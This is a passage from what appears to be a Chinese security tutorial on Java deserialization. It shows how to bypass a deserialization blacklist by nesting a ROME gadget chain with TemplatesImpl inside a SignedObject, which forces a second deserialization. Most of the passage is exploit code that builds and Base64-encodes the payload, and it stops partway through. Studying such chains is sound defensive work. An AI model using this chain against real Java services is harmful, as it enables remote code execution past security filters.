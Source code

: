 而 this.content 由其构造函数传入  
[![](assets/1701071934-3636a0b878c5b2348ee37350e765cd31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223518-b0aa5bd4-8ad6-1.png)  
再反序列化入口有黑名单时，可以将序列化对象最为参数传入 SignedObject 的构造函数中，触发 SignedObject 的 getObject 方法，造成二次反序列化进行绕过  
demo:

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;

public class rome4 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);

        SignedObject s = makeSignedObject(hashmap);

        // 二次反序列化
        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class, "s");
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class, toStringBean2);
        HashMap hashmap2 = new HashMap();
        hashmap2.put(equalsBean2, "1");
        util.setFieldValue(toStringBean2,"_obj",s);

        byte[] ser = util.serialize(hashmap2);
        String exp = Base64.getEncoder().encodeToString(ser);
```